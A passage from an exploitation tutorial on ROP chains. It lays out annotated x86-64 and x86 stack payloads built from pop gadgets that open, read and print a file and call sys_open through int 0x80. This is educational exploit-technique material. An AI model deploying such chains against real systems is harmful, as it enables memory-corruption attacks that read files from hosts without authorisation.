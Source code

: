 Let's do the same `open()`, `read()`, `write()`, `exit()` `ROP` chain on
`x86-64`:

```python
p64(pop_rdi_ret)            # load filename_ptr into rdi
p64(filename_ptr)           # arg0: pointer to filename string
p64(pop_rsi_pop_r15_ret)    # load flags into rsi
p64(0x0)                    # arg1: O_RDONLY
p64(0xcafebabe)             # dummy bytes loaded into r15
p64(pop_rdx_ret)            # load mode into rdx
p64(0x0)                    # arg2: 0 for mode
p64(open_sym)               # address of open() function within libc
p64(pop_rdi_ret)            # load fd into rdi
p64(0x3)                    # arg0: assume fd of the target is 3
p64(pop_rsi_pop_r15_ret)    # load initial into rsi
p64(initial)                # arg1: initial data structure in libc (rw-)
p64(0xcafebabe)             # dummy bytes loaded into r15
p64(pop_rdx_ret)            # load num of bytes to read into rdx
p64(1024)                   # arg2: num of bytes to read from fd 3
p64(read_sym)               # address of read() function within libc
p64(pop_rdi_ret)            # load fd 1 (stdout) into rdi
p64(0x1)                    # arg0: fd 1(stdout)
p64(pop_rsi_pop_r15_ret)    # load initial into rsi
p64(initial)                # arg1: initial data structure with file content
p64(0xcafebabe)             # dummy bytes loaded into r15
p64(pop_rdx_ret)            # load num of bytes to write into rdx
p64(1024)                   # arg2: num of bytes to write to fd 1 (stdout)
p64(write_sym)              # address of write() function within libc
p64(exit_sym)               # address of exit() function within libc
```

**So what's happening in this stack frame?**

The operations that take place within this `stack` frame are exactly the same
as what took place in the `x86` example, we're just using `ROP` gadgets to
ensure that we're following the `x86-64` calling convention. Each `pop %; ret`
gadget is `pop`ing our arguments from the `stack` into the correct registers
for each `libc` function call. You can see that not everything is perfect,
though. The `pop rsi; pop r15; ret` gadget is `pop`ing a dummy value from the
`stack` into `r15`. We're not always going to find the perfect gadget to
`pop %` just one value into our target register - we have to make due with
what's available.

## Creating a ROP chain to execute syscalls on x86 and x86-64

Alright, so now that we understand how to chain gadgets to make multiple `libc`
calls, here are some examples of `ROP` chains that execute `syscall`s in `x86`
and `x86-64`.

Here's an example `ROP` chain that executes
`sys_open(filename_ptr, O_RDONLY, 0)` in `x86`:

```python
p32(pop_ebx_ret)    # load filename_ptr into ebx
p32(filename_ptr)   # arg0: pointer to filename string
p32(pop_ecx_ret)    # load flags into ecx
p32(0x0)            # arg1: O_RDONLY
p32(pop_edx_ret)    # load mode into edx
p32(0x0)            # arg2: 0 for mode
p32(pop_eax_ret)    # load syscall number into eax
p32(0x5)            # syscall number for sys_open
p32(int_80_ret)     # int 0x80; ret gadget
```
